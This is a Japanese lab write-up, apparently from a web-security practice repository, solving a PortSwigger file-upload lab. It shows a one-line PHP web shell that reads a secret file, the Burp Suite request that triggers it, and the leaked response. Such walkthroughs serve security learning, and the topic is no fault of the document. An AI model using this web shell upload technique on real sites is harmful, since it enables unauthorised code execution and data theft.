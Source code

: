 # Web シェルのアップロードによるリモート実行

以下のハッキングラボはファイルアップロード時に検証が行われない脆弱性があります。
https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload

- 1.Burp Suite を起動し、Proxy タブからブラウザを立ち上げる
- 2.ブラウザからハッキングラボにアクセスする
- 3.一般ユーザーでログインするとアバター画像アップロードが可能なので、任意の画像をアップロードします
  ![2](https://github.com/pea-sys/web-security-experiments/assets/49807271/a0e02ada-2d9c-437b-918a-cd28f865174e)

- 4.Burp Suite の Http history にて images フィルタを設定します
  ![3](https://github.com/pea-sys/web-security-experiments/assets/49807271/a9216364-55e4-4703-94f9-e0f2734d78b4)

* 5.GET /files/avatars/1.png HTTP/2 リクエストを Send to repeater します

* 6.任意のシェルファイルを作成し、アバター画像アップロード機能でアップロードします

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

- 7.repeater に送ったリクエストの指し示すファイル名を上記シェルに置き換えてリクエストを送信します

```
GET /files/avatars/test.php HTTP/2
Host: 0ab4000b0350b44b83795547008300e9.web-security-academy.net
Cookie: session=I6kKoEanDWZIbRIqUKGAC4iQW4XF0VDd
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ab4000b0350b44b83795547008300e9.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

- 8.レスポンスから秘密の情報が得られました

```
HTTP/2 200 OK
Date: Sat, 05 Aug 2023 01:51:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

hzY0a7IhCYp3FkqZqx97vmoTDfkppkyl
```
